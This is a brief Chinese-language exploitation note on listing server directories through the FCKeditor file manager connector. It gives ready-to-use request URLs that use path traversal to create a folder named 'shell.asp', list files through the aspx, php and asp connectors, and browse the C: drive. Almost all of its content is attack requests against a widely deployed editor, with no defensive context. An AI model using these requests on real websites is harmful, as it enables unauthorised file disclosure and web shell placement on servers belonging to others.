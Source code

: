 ```yaml
---
title: 四、FCKeditor 列目录
id: zhfly2937
---
```


# 1、FCKeditor/editor/fckeditor.html

FCKeditor/editor/fckeditor.html不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

# 2、根据xml返回信息查看网站目录

```
http://www.-sec.org/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp 
```

# 3、获取当前文件夹

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ 
```

# 4、游览c盘

```
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/ 
```